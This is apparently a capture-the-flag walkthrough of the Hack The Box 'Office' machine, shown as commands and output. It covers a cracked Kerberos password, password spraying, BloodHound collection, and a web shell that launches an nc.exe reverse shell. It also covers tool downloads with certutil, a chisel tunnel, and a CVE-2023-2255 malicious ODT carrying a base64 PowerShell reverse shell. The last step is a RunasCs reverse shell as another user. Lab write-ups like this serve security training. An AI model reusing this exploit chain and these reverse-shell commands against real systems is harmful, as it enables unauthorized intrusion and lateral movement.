$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
```


```bash
❯ nxc smb 10.10.11.3 -u 'tstark' -p 'playboy69'
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [+] office.htb\tstark:playboy69 

❯ nxc smb 10.10.11.3 -u users.txt -p 'playboy69' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\administrator:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dlanor:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dwolfe:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\etower:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\hhogan:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\ppots:playboy69 STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\tstark:playboy69 
```


```bash
❯ nxc ldap 10.10.11.3 -u 'tstark' -p 'playboy69' -d office.htb --bloodhound --collection All --dns-server 10.10.11.3
LDAP        10.10.11.3      389    10.10.11.3       [-] Error retrieving os arch of 10.10.11.3: Could not connect: timed out
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.3      636    DC               [+] office.htb\tstark:playboy69 
LDAPS       10.10.11.3      636    DC               Resolved collection methods: rdp, dcom, localadmin, group, acl, trusts, objectprops, psremote, container, session
LDAP        10.10.11.3      389    DC               Done in 00M 08S
LDAPS       10.10.11.3      636    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.11.3_2025-02-09_021748_bloodhound.zip
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ curl -s 'http://office.htb' --data-urlencode 'gzzcoo=whoami'
office\web_account
```


```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sun Feb  9 03:08:25 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -username gzzcoo -password gzzcoo123 -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```


```bash
❯ curl -s 'http://office.htb' --data-urlencode 'gzzcoo=net use x: \\10.10.16.7\smbFolder /user:gzzcoo gzzcoo123'
The command completed successfully.
```


```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ curl -s 'http://office.htb' --data-urlencode 'gzzcoo=x:\nc.exe -e cmd 10.10.16.7 443'
```


```powershell
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.3] 62448
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\joomla>whoami
whoami
office\web_account

C:\xampp\htdocs\joomla>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.11.3
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```


```powershell
PS C:\xampp\htdocs> dir
dir


    Directory: C:\xampp\htdocs


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          5/9/2023   7:53 AM                administrator                                                        
d-----         1/30/2024   8:39 AM                internal                                                             
d-----          5/8/2023   3:10 PM                joomla                                                               


PS C:\xampp\htdocs> cd administrator
cd administrator
PS C:\xampp\htdocs\administrator> dir
dir


    Directory: C:\xampp\htdocs\administrator


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         1/18/2024   9:28 AM                logs                                                                 


PS C:\xampp\htdocs\administrator> cd logs
cd logs
PS C:\xampp\htdocs\administrator\logs> dir
dir


    Directory: C:\xampp\htdocs\administrator\logs


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         7/19/2023   3:31 PM            314 1.error.php                                                          


PS C:\xampp\htdocs\administrator\logs> cat 1.error.php
cat 1.error.php
#
#<?php die('Forbidden.'); ?>
#Date: 2023-07-19 22:31:31 UTC
#Software: Joomla! 4.2.7 Stable [ Uaminifu ] 31-January-2023 15:00 GMT

#Fields: datetime	priority clientip	category	message
2023-07-19T22:31:31+00:00	INFO 10.250.0.45	joomlafailure	Username and password do not match or you do not have an account yet.
```


```powershell
PS C:\xampp\htdocs\internal> dir
dir


    Directory: C:\xampp\htdocs\internal


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         2/14/2024   5:35 PM                applications                                                         
d-----          5/1/2023   4:27 PM                css                                                                  
d-----          5/1/2023   4:27 PM                img                                                                  
-a----         1/30/2024   8:38 AM           5113 index.html                                                           
-a----         1/30/2024   8:40 AM           5282 resume.php                                                           


PS C:\xampp\htdocs\internal> cat resume.php
cat resume.php
<?php
$notifi = "";
if($_SERVER["REQUEST_METHOD"] == "POST" ){
  $stdname=trim($_POST['fullname']);
  $email=str_replace('.','-',$_POST['email']);
  $experience=trim($_POST['experience']);
  $salary=trim($_POST['salary']);
  $department=trim($_POST['department']);
  $rewritefn = strtolower(str_replace(' ','-',"$stdname-$department-$salary $experience $email"));
  
  $filename =$_FILES['assignment']['name'];
  $filetype= $_FILES['assignment']['type'];
  $filesize =$_FILES['assignment']['size'];
  $fileerr = $_FILES['assignment']['error'];
  $filetmp = $_FILES['assignment']['tmp_name'];
  chmod($_FILES['assignment']['tmp_name'], 0664);
  // onigiri in .
 $ext = explode('.',$filename);
  //last piece of data from array
 $extension = strtolower(end($ext));
  $filesallowed = array('docm','docx','doc','odt');
   if(in_array($extension,$filesallowed)){
     if ($fileerr === 0){
       if ($filesize < 5242880){
	$ff = "$rewritefn.$extension";
	$loc = "applications/".$ff;
	  if(move_uploaded_file($filetmp,$loc))
	  {
	    // upload successful
	    $notifi="<span class=notifi>�o" Upload Successful!</span><hr/><style>
	      button, input , select, option, h3{
			display:none;
		}
	      </style>";
	} else {
echo $loc;
	$notifi="<span class=notifi>�o-�,?  Something Went Wrong! Unable To upload the Resume!</span><hr/>";
	}
       
       } else {
	
	$notifi="<span class=notifi>�s��,?  Your Resume should be less than 5MB!</span><hr/>";
       }
     
     } else {
   $notifi="<span class=notifi>�o-�,?  Corrupted File/Unable to Upload!</span><hr/>";
     }
   
   } else {
   $notifi="<span class=notifi>�?O Accepted File Types : Doc, Docx, Docm, Odt!</span><hr/>";
   }
}
?>
```


```powershell
PS C:\xampp\apache\conf> dir
dir


    Directory: C:\xampp\apache\conf


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         4/13/2023   4:14 PM                extra                                                                
d-----         4/13/2023   4:12 PM                original                                                             
d-----         4/13/2023   4:12 PM                ssl.crt                                                              
d-----         4/13/2023   4:12 PM                ssl.csr                                                              
d-----         4/13/2023   4:12 PM                ssl.key                                                              
-a----          3/7/2023   5:25 AM           1820 charset.conv                                                         
-a----          5/1/2023   6:01 PM          22218 httpd.conf                                                           
-a----          3/7/2023   5:25 AM          13449 magic                                                                
-a----          4/6/2023   2:24 AM          60869 mime.types                                                           
-a----          2/7/2023   6:37 AM          11259 openssl.cnf                                                          


PS C:\xampp\apache\conf> cat httpd.conf
cat httpd.conf
#
Define SRVROOT "C:/xampp/apache"

ServerRoot "C:/xampp/apache"

#
#
# Change this to Listen on specific IP addresses as shown below to 
# prevent Apache from glomming onto all bound IP addresses.
#
#Listen 12.34.56.78:80
Listen 80
Listen 8083

<VirtualHost *:8083>
    DocumentRoot "C:\xampp\htdocs\internal"
    ServerName localhost:8083

    <Directory "C:\xampp\htdocs\internal">
        Options -Indexes +FollowSymLinks +MultiViews
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog "logs/myweb-error.log"
    CustomLog "logs/myweb-access.log" combined
</VirtualHost>
```


```powershell
C:\ProgramData>netstat -ano | findstr "8083"
               netstat -ano | findstr "8083"
netstat -ano | findstr "8083"
  TCP    0.0.0.0:8083           0.0.0.0:0              LISTENING       5004
```


```powershell
C:\ProgramData>curl -s 127.0.0.1:8083
               curl -s 127.0.0.1:8083
curl -s 127.0.0.1:8083
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="css/squarely.css">
    <!--common.css  -->
      <link rel="stylesheet" href="css/common.css">
    <title>Holography Industries</title>
  </head>
  <body>
```


```
❯ ls -l chisel*
.rwxr-xr-x kali kali 8.9 MB Sun Feb  9 03:15:54 2025  chisel
.rw-r--r-- kali kali 9.3 MB Sun Feb  9 03:15:57 2025  chisel.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```powershell
C:\ProgramData>certutil.exe -f -urlcache -split http://10.10.16.7/chisel.exe chisel.exe
certutil.exe -f -urlcache -split http://10.10.16.7/chisel.exe chisel.exe
****  Online  ****
  000000  ...
  94f000
CertUtil: -URLCache command completed successfully.
```


```bash
❯ ./chisel server --reverse -p 1234
2025/02/09 03:18:09 server: Reverse tunnelling enabled
2025/02/09 03:18:09 server: Fingerprint tu8N4+Y6XXY9RgN/Lf204My2d8DI4sg+HioJVf49dDI=
2025/02/09 03:18:09 server: Listening on http://0.0.0.0:1234
```


```powershell
C:\ProgramData>chisel.exe client 10.10.16.7:1234 R:8083:127.0.0.1:8083
               chisel.exe client 10.10.16.7:1234 R:8083:127.0.0.1:8083
chisel.exe client 10.10.16.7:1234 R:8083:127.0.0.1:8083
2025/02/08 18:28:11 client: Connecting to ws://10.10.16.7:1234
2025/02/08 18:28:12 client: Connected (Latency 31.8858ms)
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ ls -l gzzcoo.odt
.rw-rw-r-- kali kali 9.4 KB Sun Feb  9 03:23:19 2025  gzzcoo.odt
❯ file gzzcoo.odt
gzzcoo.odt: OpenDocument Text
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```powershell
PS C:\xampp\htdocs\internal\applications> dir
dir


    Directory: C:\xampp\htdocs\internal\applications


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          2/8/2025   6:33 PM           9606 gzzcoo-it-30-000-0-5-years-gzzcoo@office-htb.odt  

PS C:\xampp\htdocs\internal\applications> dir
dir
PS C:\xampp\htdocs\internal\applications> 
```


```powershell
PS C:\Program Files\LibreOffice 5\program> type version.ini
type version.ini
[Version]
AllLanguages=en-US af am ar as ast be bg bn bn-IN bo br brx bs ca ca-valencia cs cy da de dgo dz el en-GB en-ZA eo es et eu fa fi fr ga gd gl gu gug he hi hr hu id is it ja ka kk km kmr-Latn kn ko kok ks lb lo lt lv mai mk ml mn mni mr my nb ne nl nn nr nso oc om or pa-IN pl pt pt-BR ro ru rw sa-IN sat sd sr-Latn si sid sk sl sq sr ss st sv sw-TZ ta te tg th tn tr ts tt ug uk uz ve vec vi xh zh-CN zh-TW zu
BuildVersion=
buildid=a3100ed2409ebf1c212f5048fbe377c281438fdc
ExtensionUpdateURL=http://updateexte.libreoffice.org/ExtensionUpdateService/check.Update
MsiProductVersion=5.2.6.2
ProductCode={2B69F1E6-C4D6-44A2-AFAD-4BD0571D254E}
ReferenceOOoMajorMinor=4.1
UpdateID=LibreOffice_4_en-US_af_am_ar_as_ast_be_bg_bn_bn-IN_bo_br_brx_bs_ca_ca-valencia_cs_cy_da_de_dgo_dz_el_en-GB_en-ZA_eo_es_et_eu_fa_fi_fr_ga_gd_gl_gu_gug_he_hi_hr_hu_id_is_it_ja_ka_kk_km_kmr-Latn_kn_ko_kok_ks_lb_lo_lt_lv_mai_mk_ml_mn_mni_mr_my_nb_ne_nl_nn_nr_nso_oc_om_or_pa-IN_pl_pt_pt-BR_ro_ru_rw_sa-IN_sat_sd_sr-Latn_si_sid_sk_sl_sq_sr_ss_st_sv_sw-TZ_ta_te_tg_th_tn_tr_ts_tt_ug_uk_uz_ve_vec_vi_xh_zh-CN_zh-TW_zu
UpdateURL=http://update.libreoffice.org/check.php
UpgradeCode={4B17E523-5D91-4E69-BD96-7FD81CFA81BB}
UpdateUserAgent=<PRODUCT> (${buildid}; ${_OS}; ${_ARCH}; <OPTIONAL_OS_HW_DATA>)
Vendor=The Document Foundation
```


<figure><figcaption></figcaption></figure>




```bash
❯ git clone https://github.com/elweth-sec/CVE-2023-2255; cd CVE-2023-2255
Clonando en 'CVE-2023-2255'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 10 (delta 2), reused 5 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (10/10), 8.47 KiB | 2.12 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```


<figure><figcaption></figcaption></figure>


```bash
❯ python3 CVE-2023-2255.py --cmd "cmd.exe /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
File output.odt has been created !
❯ ls -l output.odt
.rw-rw-r-- kali kali 31 KB Sun Feb  9 03:30:47 2025  output.odt
```


```bash
❯ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444 ...
```


<figure><figcaption></figcaption></figure>


```powershell
❯ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.3] 62599

PS C:\Program Files\LibreOffice 5\program> whoami
office\ppotts
```


otra manera de pivotara ppotss


```powershell
PS C:\ProgramData> net user
net user

User accounts for \\DC

-------------------------------------------------------------------------------
Administrator            dlanor                   dmichael                 
dwolfe                   etower                   EWhite                   
Guest                    HHogan                   krbtgt                   
PPotts                   tstark                   web_account              
The command completed successfully.

PS C:\ProgramData> dir C:\Users\
dir C:\Users\


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         1/22/2024   9:22 AM                Administrator                                                        
d-----         1/18/2024  12:24 PM                HHogan                                                               
d-----         1/22/2024   9:22 AM                PPotts                                                               
d-r---         1/18/2024  12:29 PM                Public                                                               
d-----         1/18/2024  10:33 AM                tstark                                                               
d-----         1/22/2024   9:22 AM                web_account 
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


```bash
❯ ls -l RunasCs.exe
.rw-r--r-- kali kali 50 KB Sun Feb  9 03:34:41 2025  RunasCs.exe
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```powershell
PS C:\ProgramData> certutil.exe -f -urlcache -split http://10.10.16.7/RunasCs.exe RunasCs.exe
certutil.exe -f -urlcache -split http://10.10.16.7/RunasCs.exe RunasCs.exe
****  Online  ****
  0000  ...
  ca00
CertUtil: -URLCache command completed successfully
```


```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```


```powershell
PS C:\ProgramData> .\RunasCs.exe tstark playboy69 cmd.exe -r 10.10.16.7:444
.\RunasCs.exe tstark playboy69 cmd.exe -r 10.10.16.7:444
[*] Warning: The logon for user 'tstark' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-58dc6$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3120 created in background.
```


```powershell
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.3] 62624
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
office\tstark
```


register


